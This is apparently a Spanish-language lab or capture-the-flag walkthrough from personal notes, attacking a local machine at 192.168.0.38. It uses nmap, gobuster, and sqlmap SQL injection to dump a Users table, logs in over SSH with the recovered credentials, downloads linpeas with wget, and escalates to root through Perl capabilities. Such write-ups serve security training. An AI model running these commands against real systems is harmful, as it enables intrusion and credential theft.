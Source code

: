 Hacemos el reconocimiento con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230720124301.png]]
Y esto es lo que corre por el puerto 80:
![[Mis apuntes/ANEXOS/Pasted image 20230720124139.png]]
Hacemos fuzzing y encontramos el directorio administrator y server-status:
```bash
gobuster dir -u http://192.168.0.38/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```
![[Mis apuntes/ANEXOS/Pasted image 20230720124411.png]]
En server-status no tenemos permiso para acceder:
![[Mis apuntes/ANEXOS/Pasted image 20230720124547.png]]
Y esto corre en administrator:
![[Mis apuntes/ANEXOS/Pasted image 20230720124445.png]]
En este punto, podemos probar si esto es vulnerable a una sql injection con sqlmap con este parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms --dbs --batch
```
Y tenemos estas bases de datos:
![[Mis apuntes/ANEXOS/Pasted image 20230720130018.png]]
Ahora vamos a atacar a la base de datos webapp, donde si queremos ver las tablas con sqlmap, debemos usar el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp --tables --batch
```
Y vemos la tabla users:
![[Mis apuntes/ANEXOS/Pasted image 20230720130239.png]]
Ahora para ver las columnas de la tabla Users, lo haríamos de la siguiente forma:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users --columns --batch
```
![[Mis apuntes/ANEXOS/Pasted image 20230720130627.png]]
Y ahora para ver todos estos registros con los usuarios y contraseñas, lo haríamos con el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users -C password,id,username --dump --batch
```
![[Mis apuntes/ANEXOS/Pasted image 20230720131304.png]]
Por tanto ahora vamos a probar en acceder por ssh con el usuario bart y contraseña b4rtp0w4:
```bash
bart:b4rtp0w4
```
![[Mis apuntes/ANEXOS/Pasted image 20230720131029.png]]
Una vez dentro, buscamos opciones de escalar privilegios; y para ello podemos usar linpeas, pero previamente lo descargamos con este comando:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
Lo compartimos con la máquina víctima y lo ejecutamos, donde vemos unos archivos de perl con capabilities:
![[Mis apuntes/ANEXOS/Pasted image 20230720131854.png]]
Por tanto vamos a gtfobins y miramos el payload para explotar las capabilities de perl, y tenemos esto:
![[Mis apuntes/ANEXOS/Pasted image 20230720132042.png]]
Por lo que podemos ejecutarlo directamente o en un script:
![[Mis apuntes/ANEXOS/Pasted image 20230720132238.png]]
Y ya somos root al ejecutarlo de cualquiera de las dos formas:
![[Mis apuntes/ANEXOS/Pasted image 20230720132148.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230720132251.png]]

